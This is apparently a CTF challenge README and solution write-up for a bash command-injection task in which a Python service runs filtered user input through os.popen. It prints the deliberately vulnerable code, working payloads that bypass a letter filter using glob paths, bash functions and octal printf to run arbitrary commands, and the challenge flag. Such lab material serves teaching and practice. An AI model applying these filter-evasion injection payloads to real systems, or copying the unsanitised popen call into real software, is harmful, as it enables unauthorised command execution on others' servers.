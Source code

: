 # Bashing your spirit foods
Testing on bash injection knowledge

<i>Creator - @Platy</i>

## Category
Pwn

## Question
>You are not yourself when you are hungry. Have a CTF challenge and stop <i>bashing</i> people up.
>
>Connect via `nc <ip address> 17450`

### Hint
`I hate needles`

## Setup Guide
Do `bash build.sh`

## Distribution
None.

## Solution
This challenge tests on bash injection.
```
Foods available
[n]achos
[f]ishies
> 
```
If we try to enter any other letters besides `n` or `f`, we will get:
```
Sorry, but we do not serve these here. Maybe next time!
```
When we try to get `n` for nachos, we get this:
```
  _   _            _               
 | \ | |          | |              
 |  \| | __ _  ___| |__   ___  ___ 
 | . ` |/ _` |/ __| '_ \ / _ \/ __|
 | |\  | (_| | (__| | | | (_) \__ \
 |_| \_|\__,_|\___|_| |_|\___/|___/

Hope you enjoy!
sh: 1: n: not found
```
Same goes when we type `f` except we get 'Fishies' instead of 'Nachos'.

We get `sh: 1 n: not found`. It runs a shell with the input as the command. For example, if we entered `cat /etc/passwd`, the output will be printed back. However, we cannot use such a enter that because it contains other letters besides `n` or `f`. When we try `nnnnnn`, it shows `sh: 1: nnnnnn: not found`.

First, we should try using cat to view the contents of all the files. But how can we send cat using only `n` or `f`? It turns out after trying many different characters, it accepts special characters `!@#$%^*()[]{};',.` etc.

So we can use special characters and the letters `n` and `f`. Now we're getting somewhere. Unix has autocompletion functions. Typing out `cat *` well expand to `cat <filename>`. The asterisk represents any number of characters. The question marks represents only one character.

So by inputting `/??n/??? ./*`, we manage to view all the files in the current directory. This reveals the python script and shows what it is actually doing

```python
def getFlag():
	input = raw_input('''Foods available
[n]achos
[f]ishies
> ''')
	if (re.findall('[0-9a-eg-mo-zA-Z]',input) == []):
		if input == 'n':
			nachos()
		elif input == 'f':
			fish()
		print 'Hope you enjoy!'
		print os.popen(input).read()
	else:
		print 'Sorry, but we do not serve these here. Maybe next time!'
```

We can now see that it filters out `[0-9a-eg-mo-zA-Z]`.

By using autocompletition again, we can use `printf` to output the necessary characters to the file.

Locate `printf` by using `/*/??n/???n?f`

Functions can be created in bash `functionName(){ function; }`. By using this method we can create a print function `n(){ /*/??n/???n?f ${@}; };` where `${@}` represents the parameters passed to the print function

We can use octal to print out characters. All we need now is to be able to print numbers without actually printing numbers.

`${#}` counts the number of arguments specified to the print function. Using the previously declared function `n`, we can use it to create a new function `f(){ n ${#}; };`

Now we can specify any number we want and by extension, whatever string we want. This prints out 'a' because the octal for 'a' is '141'. Therefore, there are 3 function `f` with 1, 4 and 1 as arguments respectively:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };n $(n \\\\`f "" ; f "" "" "" "" ; f "" ; `;)
```

We can add another `$()` that acts like an 'eval' function which allows us to run whatever command we like. You can run any command with nothing more than 'n', 'f' and a bunch of special characters!

For example, `ls` becomes this:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;))
```

There is a generator `solution.py` in the solution folder to generate the commands.

Basically, we have shell access with a very troublesome way to run commands.

We can now use `ls -la` to find if there are any interesting files. Remember to separate the 2 commands and pipe it in manually. Also, do not redefine the functions again.

We find a file called `f14g` which when cat, does not show us a flag, but a clue to where the next flag is. Do `ls -l -d -1 /*/* | grep flag` to find if there are any interesting files. Remember to separate the 2 commands and pipe it in manually. Also, do not redefine the functions again.

```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" "" ; f "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;)) | $(n $(n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;))
```

We can see this file called `/bin/thisisareallylongflagbutifyoucansomehowcatthisitwouldbeamazing`

Cat the file and you can see assembler code

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x00000000000006b0 <+0>:	push   rbp
   0x00000000000006b1 <+1>:	mov    rbp,rsp
   0x00000000000006b4 <+4>:	push   0x7d
   0x00000000000006b6 <+6>:	push   0x68
   0x00000000000006b8 <+8>:	push   0x37
   0x00000000000006ba <+10>:	push   0x6c
   0x00000000000006bc <+12>:	push   0x34
   0x00000000000006be <+14>:	push   0x33
   0x00000000000006c0 <+16>:	push   0x68
   0x00000000000006c2 <+18>:	push   0x5f
   0x00000000000006c4 <+20>:	push   0x72
   0x00000000000006c6 <+22>:	push   0x30
   0x00000000000006c8 <+24>:	push   0x66
   0x00000000000006ca <+26>:	push   0x5f
   0x00000000000006cc <+28>:	push   0x64
   0x00000000000006ce <+30>:	push   0x34
   0x00000000000006d0 <+32>:	push   0x62
   0x00000000000006d2 <+34>:	push   0x5f
   0x00000000000006d4 <+36>:	push   0x35
   0x00000000000006d6 <+38>:	push   0x31
   0x00000000000006d8 <+40>:	push   0x5f
   0x00000000000006da <+42>:	push   0x36
   0x00000000000006dc <+44>:	push   0x6e
   0x00000000000006de <+46>:	push   0x31
   0x00000000000006e0 <+48>:	push   0x68
   0x00000000000006e2 <+50>:	push   0x35
   0x00000000000006e4 <+52>:	push   0x34
   0x00000000000006e6 <+54>:	push   0x62
   0x00000000000006e8 <+56>:	mov    r9d,0x7b
   0x00000000000006ee <+62>:	mov    r8d,0x46
   0x00000000000006f4 <+68>:	mov    ecx,0x54
   0x00000000000006f9 <+73>:	mov    edx,0x43
   0x00000000000006fe <+78>:	mov    esi,0x47
   0x0000000000000703 <+83>:	lea    rdi,[rip+0xae]        # 0x7b8
   0x000000000000070a <+90>:	mov    eax,0x0
   0x000000000000070f <+95>:	call   0x560 <printf@plt>
   0x0000000000000714 <+100>:	add    rsp,0xd0
   0x000000000000071b <+107>:	mov    eax,0x0
   0x0000000000000720 <+112>:	leave
   0x0000000000000721 <+113>:	ret
End of assembler dump.
```

As we can see, a lot of values are being pushed into the stack. And at the end, it calls the `printf` function.

We can store all the items in the stack and decode it into ascii using a small python script

```python
values = [0x47,0x43,0x54,0x46,0x7b,0x62,0x34,0x35,0x68,0x31,0x6e,0x36,0x5f,0x62,0x34,0x64,0x5f,0x66,0x30,0x72,0x5f,0x68,0x33,0x34,0x6c,0x37,0x68,0x7d]
for i in values:
	print(chr(i),end='')
print()
```

### Flag
`GCTF{b45h1n6_15_b4d_f0r_h34l7h}`

## Distribution
No files to be distributed

## Credits
33c3 ctf - 2016

Misc.

hohoho - 350pts

## Recommended Reads
None.